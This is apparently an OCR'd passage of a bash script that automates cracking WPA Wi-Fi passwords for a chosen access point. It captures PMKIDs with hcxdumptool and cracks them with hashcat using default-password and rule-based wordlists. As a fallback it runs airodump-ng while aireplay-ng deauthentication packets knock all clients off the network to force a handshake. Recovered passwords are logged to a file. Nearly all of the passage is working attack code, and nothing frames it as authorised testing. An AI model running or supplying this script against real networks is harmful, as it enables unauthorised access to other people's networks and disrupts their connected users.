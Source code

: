 handshake/PMKID capture and crack if ! $ATTACK_SUCCESS && [[ "$Privacy" == *"WPA"* ]]; then echo "Attempting handshake/PMKID capture and cracking for $ESSID ($BSSID)..." # Try PMKID capture first (often faster) echo "Attempting PMKID capture with hcxdumptool..." HCX_CAPTURE_FILE="hcx_capture_${BSSID//:/-}.pcapng" HCX_HASH_FILE="hcx_hash_${BSSID//:/-}.22000" # Need to hop to the correct channel for hcxdumptool iwconfig "$MON_INTERFACE" channel "$Channel" > /dev/null 2>&1 sleep 1 echo "Interface channel set to $Channel." # Run hcxdumptool - capture for a short duration, need -E for ESSID filter if desired, -b for BSSID # Capturing only PMKIDs (-m 1) is more efficient if the adapter supports it fully. # Adding -O to remove client identities might be useful depending on goals. # Adding -s for status output during capture. timeout 60 hcxdumptool -o "$HCX_CAPTURE_FILE" -i "$MON_INTERFACE" --quiet -s -b "$BSSID" --filtermode 1 --ap-list="$BSSID" &> /dev/null & # Capture for 60 seconds HCXDUMP_PID=$! echo "Capturing PMKID in background (PID: $HCXDUMP_PID) for 60 seconds..." # In parallel, you *could* try a deauth to trigger clients if present, but let's keep it simpler for this script blueprint first. # timeout 20 aireplay-ng -0 5 -a "$BSSID" "$MON_INTERFACE" > /dev/null 2>&1 & # Send 5 deauth packets wait $HCXDUMP_PID # Wait for hcxdumptool to finish # Convert the capture file to hashcat format (22000 for PMKID) if [ -f "$HCX_CAPTURE_FILE" ] && [ $(stat -c %s "$HCX_CAPTURE_FILE") -gt 0 ]; then # Check file exists and is not empty echo "HCX capture complete. Converting to Hashcat format..." hcxpcaptool -o "$HCX_HASH_FILE" "$HCX_CAPTURE_FILE" &> /dev/null if [ -f "$HCX_HASH_FILE" ] && [ $(stat -c %s "$HCX_HASH_FILE") -gt 0 ]; then echo "Conversion successful. Hash file: $HCX_HASH_FILE" # Attempt cracking the PMKID hash with Hashcat echo "Attempting to crack PMKID hash with Hashcat..." # Use -m 22000 for WPA-PBKDF2-PMKID # Try default passwords first (manual lookup needed for this script) # This step requires a list of default passwords in a file. DEFAULT_WORDLIST="default_passwords_${Manufacturer// /_}.txt" # Placeholder name based on manufacturer if [ -f "$DEFAULT_WORDLIST" ]; then echo "Trying manufacturer default passwords..." HASHCAT_RESULT=$(hashcat -m 22000 "$HCX_HASH_FILE" "$DEFAULT_WORDLIST" --force --potfile-disable) if echo "$HASHCAT_RESULT" | grep -q "Cracked:"; then CRACKED_PASS=$(echo "$HASHCAT_RESULT" | tail -n 1 | awk -F':' '{print $NF}') echo "\n!!! PMKID CRACKED with Default Wordlist !!!" echo "Target: $ESSID ($BSSID)" echo "Password: $CRACKED_PASS" echo "$ESSID ($BSSID): $CRACKED_PASS (via PMKID/Default Wordlist)" >> "$CRACKED_PASSWORDS_FILE" ATTACK_SUCCESS=true else echo "Default password cracking failed." fi else echo "No default password wordlist found for $Manufacturer. Skipping." fi # If default cracking failed, try main wordlist with rules if ! $ATTACK_SUCCESS; then echo "Trying main wordlist '$WORDLIST' with rules '$HASHCAT_RULES'..." # Using --force is sometimes needed on VMs or inconsistent drivers, but can mask real issues. Use with caution. # Adding --status --status-timer 15 for progress updates HASHCAT_RESULT=$(hashcat -m 22000 "$HCX_HASH_FILE" "$WORDLIST" -r "$HASHCAT_RULES" --force --potfile-disable --status --status-timer 15) echo "$HASHCAT_RESULT" # Print hashcat output for debugging/status if echo "$HASHCAT_RESULT" | grep -q "Cracked:"; then CRACKED_PASS=$(echo "$HASHCAT_RESULT" | tail -n 1 | awk -F':' '{print $NF}') echo "\n!!! PMKID CRACKED with Dictionary/Rules !!!" echo "Target: $ESSID ($BSSID)" echo "Password: $CRACKED_PASS" echo "$ESSID ($BSSID): $CRACKED_PASS (via PMKID/Dictionary+Rules)" >> "$CRACKED_PASSWORDS_FILE" ATTACK_SUCCESS=true else echo "Dictionary/Rules cracking failed for PMKID." fi fi # Clean up PMKID capture files if cracked or done attempting # rm "$HCX_CAPTURE_FILE" "$HCX_HASH_FILE" else echo "Failed to convert HCX capture to Hashcat format." fi else echo "HCX capture file empty or not created. No PMKID captured?" fi # --- Alternative: Standard 4-Way Handshake Capture (if PMKID fails or as fallback) --- if ! $ATTACK_SUCCESS; then echo "PMKID cracking failed or wasn't possible. Attempting 4-way handshake capture..." AIR_CAPTURE_FILE="air_capture_${BSSID//:/-}.cap" AIR_HASH_FILE="air_hash_${BSSID//:/-}.hccapx" echo "Starting airodump-ng to capture handshake..." # Run airodump-ng in the background focused on the target AP # Need a client to connect to get a handshake. Deauth attacks help. # Use timeout to stop capture after a while if no handshake is seen. iwconfig "$MON_INTERFACE" channel "$Channel" > /dev/null 2>&1 sleep 1 echo "Interface channel set to $Channel." airodump-ng --bssid "$BSSID" -c "$Channel" -w "$AIR_CAPTURE_FILE" --ignore-negative-one "$MON_INTERFACE" & Airodump_PID=$! echo "Airodump-ng capturing handshake in background (PID: $Airodump_PID)..." # Now try to trigger a handshake by deauthenticating clients (if any) echo "Attempting to deauthenticate clients to trigger handshake..." # Find clients connected to this AP from the scan data (this script doesn't store client data robustly - a weakness. Manual check needed or more complex parsing) # For a truly automated script, you'd need to parse airodump output *while it's running* or from the initial scan to find clients. # Let's assume for this blueprint you might know a client MAC (or automate finding one). # Example: If you found client AA:BB:CC:DD:EE:FF connected to $BSSID # timeout 30 aireplay-ng -0 10 -a "$BSSID" -c AA:BB:CC:DD:EE:FF "$MON_INTERFACE" > /dev/null 2>&1 & # A simpler deauth that hits ALL clients (less targeted, potentially noisier): timeout 30 aireplay-ng -0 10 -a "$BSSID" "$MON_INTERFACE" > /dev/null 2>&1 & echo "Deauth attack running for 30 seconds..." sleep 90 # Let airodump run for a bit to capture handshake if triggered kill $Airodump_PID > /dev/null 2>&1 # Stop airodump wait $Airodump_PID